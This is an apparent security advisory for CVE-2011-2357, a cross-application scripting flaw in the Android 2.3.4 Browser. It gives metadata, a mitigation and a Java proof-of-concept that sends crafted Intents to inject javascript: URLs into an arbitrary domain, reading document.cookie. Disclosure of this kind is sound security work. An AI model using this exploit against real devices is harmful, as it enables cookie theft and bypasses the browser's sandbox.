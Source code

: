```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-07-31' 
alephid: ALEPH-2011000
cve: CVE-2011-2357
date: '2011-07-31'
title: 'Android Browser Cross-Application Scripting'
severity: high
product:
    - Android 2.3.4 and below
mitigation: 'Install Android 2.3.5 or 3.2.'
references:
    - src: Paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
    - src: 'AOSP Commit #1'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=afa4ab1e4c1d645e34bd408ce04cadfd2e5dae1e
    - src: 'AOSP Commit #2'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=096bae248453abe83cbb2e5a2c744bd62cdb620b
---
```

By generating a malicious Intent that targets Android's Browser, Malware may epxloit the Android's Browser URL loading process in order to inject JavaScript code into an arbitrary domain, thus breaking Android's sandboxing.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "com.android.browser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```
